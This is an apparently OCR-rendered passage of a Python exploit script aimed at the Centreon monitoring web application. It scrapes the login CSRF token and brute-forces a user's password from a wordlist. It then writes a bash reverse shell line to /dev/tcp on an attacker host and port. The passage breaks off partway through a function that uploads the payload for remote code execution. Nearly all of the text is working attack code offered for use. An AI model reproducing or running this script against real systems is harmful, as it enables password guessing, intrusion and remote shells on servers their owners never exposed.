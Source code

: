 ```py
# First, we need to get the Centreon Token
def getCentToken(login_url):
    # Build the url
    # Make cent_token global
    global cent_token
    # Make the request to get cent token
    cent_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for centron_token in it
    index = cent_page.text.find("centreon_token")
    # Get only the centreon_token in it
    cent_token = cent_page.text[index:index+128].split('"')[4]
    if cent_token:
        return cent_token
    else:
        print("[+] Cannot get the Cent Token [+]")
        exit

# Now we make the login requests
def loginRequest(rhost,wordlist,username):
    # Let the login url
    login_url = 'http://' + rhost + '/centreon/'
    # Let's iterate trough the wordlist
    file = open(wordlist, "r")
    iter = 0
    for line in file:
        # Get the cent_token for each request
        getCentToken(login_url)
        # Set the proper http request
        line = line.strip()
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"useralias": "%s" %username, "password": "%s" %line, "submitLogin": "Connect", "centreon_token": "%s" %cent_token}
        login = r.post(login_url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
        if "incorrect" in login.text:
            iter = iter + 1
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Wrong Password - Attempt Number: %s [+]" %iter, flush=True)
        else:
            os.system('clear')
            print()
            print("[+] Trying %s:%s" %(username,line))
            print("[+] Password FOUND!!!!!")
            print("[+] Attempt number: %s" %iter)
            print("[+] Username: %s and Password: %s [+]" %(username,line))
            print("[+] Now, let's get RCE!!! [+]")
            break

def mountPayload(lhost,lport):
    print("[+] Let's mount the Payload!!! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("payload.txt", "a")
    f.write(reverse)
    f.close()
    print("[+] Payload wrote to payload.txt[+]")

def uploadMalicious(rhost,lhost,payload):
    urllib.parse.quote(payload, safe='')
    login_url = 'http://' + rhost + '/centreon/main.get.php?p=60901'
    getCentToken(login_url)
    data = {         
        "name": "Central",
```